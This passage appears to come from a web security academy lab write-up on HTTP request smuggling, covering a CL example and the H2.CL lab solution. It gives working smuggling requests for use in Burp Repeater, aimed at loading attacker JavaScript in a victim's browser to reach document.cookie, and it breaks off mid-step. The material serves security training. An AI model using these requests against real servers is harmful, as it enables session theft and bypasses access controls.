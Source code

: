 **Back-end (HTTP/1)**

```
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Content-Length: 10

x=1GET / H
```

### H2.CL request smuggling

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load a malicious JavaScript file from the exploit server and call alert(document.cookie). The victim user accesses the home page every 10 seconds.

**Solution**

1. From the **Repeater** menu, enable the **Allow HTTP/2 ALPN override** option and disable the **Update Content-Length** option.
2. Using Burp Repeater, try smuggling an arbitrary prefix in the body of an HTTP/2 request by including a *Content-Length:* 0 header as follows. Remember to expand the Inspector's **Request Attributes** section and change the protocol to HTTP/2 before sending the request.

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    SMUGGLED
    ```

3. Observe that every second request you send receives a 404 response, confirming that you have caused the back-end to append the subsequent request to the smuggled prefix.
4. Using Burp Repeater, notice that if you send a request for *GET /resources*, you are redirected to *https://YOUR-LAB-ID.web-security-academy.net/resources/*.
5. Create the following request to smuggle the start of a request for */resources*, along with an arbitrary Host header:

    ```
    POST / HTTP/2
    Host: YOUR-LAB-ID.web-security-academy.net
    Content-Length: 0

    GET /resources HTTP/1.1
    Host: foo
    Content-Length: 5
